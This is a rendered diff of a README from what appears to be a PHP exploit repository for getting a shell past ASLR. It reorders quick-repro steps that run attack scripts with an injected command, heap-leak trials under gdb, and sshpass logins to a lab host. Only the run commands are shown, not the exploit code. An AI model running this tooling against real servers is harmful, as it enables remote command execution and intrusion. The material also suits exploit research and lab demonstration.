

Before and after one commit to 0xh34z/php2shell-bypass-aslr-exp, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
tidy README quick-repro ordering

````diff
--- a/README.md
+++ b/README.md
@@ -23,11 +23,13 @@ CMD="id>/tmp/p1" bash tools/pure_aslr_run.sh
 # sshpass -p '<LAB_PASSWORD>' ssh -t <LAB_USER>@<LAB_HOST> 'bash ~/demo_aslr_video.sh'
 
 # 3) display_errors=0 堆泄漏（需 gdb；A-only 与 A+B forge）
-# 4) display_errors=0 一键链（只校验 display_errors=0，绝不修改配置）
-#    sshpass -p '<LAB_PASSWORD>' ssh -t <LAB_USER>@<LAB_HOST> 'bash ~/demo_de0_leak.sh'
 ./tools/trial_bins.sh 0 62 235 15000 208 0 4000 103
 BN=160 BVL=231 BB1_LEN=1048551 BF_P1=256 BF_READ=4000 \
   ./tools/trial_ab.sh 0 62 235 15000 208 0 4000 103
+
+# 4) display_errors=0 一键链（只校验 display_errors=0，绝不修改配置；输出 chunk base）
+#    sshpass -p '<LAB_PASSWORD>' ssh -t <LAB_USER>@<LAB_HOST> 'bash ~/demo_de0_leak.sh'
+
 ```
 
 > 步骤 3 的 `trial_*.sh` 会重启本机 Apache 并挂 gdb，仅用于校准/取证；
````
